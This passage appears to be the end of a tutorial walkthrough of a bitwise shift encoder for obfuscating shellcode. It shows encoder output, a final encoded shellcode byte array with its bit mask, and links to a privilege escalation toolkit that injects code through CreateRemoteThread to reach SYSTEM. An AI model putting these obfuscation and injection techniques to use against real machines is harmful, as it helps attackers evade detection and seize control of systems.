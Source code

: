 ```
shiftright: x20
1
back to original (shleft): x41
==================================
==================================
original: x51
shiftright: x28
1
back to original (shleft): x51
==================================
==================================
original: x41
shiftright: x20
1
back to original (shleft): x41
==================================
==================================
original: x50
shiftright: x28
0
back to original (shleft): x50
==================================
final encoded s h 3 ! ! c 0 d 3: 

char b33fy[] = 
"\x7e\x24\x41\x72\x78\x74\x60\x0\x0\x0\x20\x28\x20\x28";

unsigned int onesnzeros[] = 

{0,0,1,0,0,0,0,0,0,0,1,1,1,0};
```

The bitwiseencoder program generates the final encoded shellcode, and that is what you would paste into the top of the bitwisedecoder.c code or in the elevationstation Inj3ct0r function:

```
char b33fy[] = 
"\x7e\x24\x41\x72\x78\x74\x60\x0\x0\x0\x20\x28\x20\x28";

unsigned int onesnzeros[] = 

{0,0,1,0,0,0,0,0,0,0,1,1,1,0};
```

Go here for both the encoding and decoding c files used in this walkthrough: [bitwise files](https://github.com/g3tsyst3m/elevationstation/tree/main/bitwisestuff)

And if you'd like to explore the decode routine used in an actual toolkit, checkout my privilege escalation toolkit Elevation Station:
[elevation station code](https://github.com/g3tsyst3m/elevationstation/tree/main/elevationstation)

You'll find the shift left decode routine in the Inj3ct0r function within the code as stated previously, and this is one of many methods used to escalate privileges to SYSTEM.  In the case of this function, using CreateRemoteThread API.
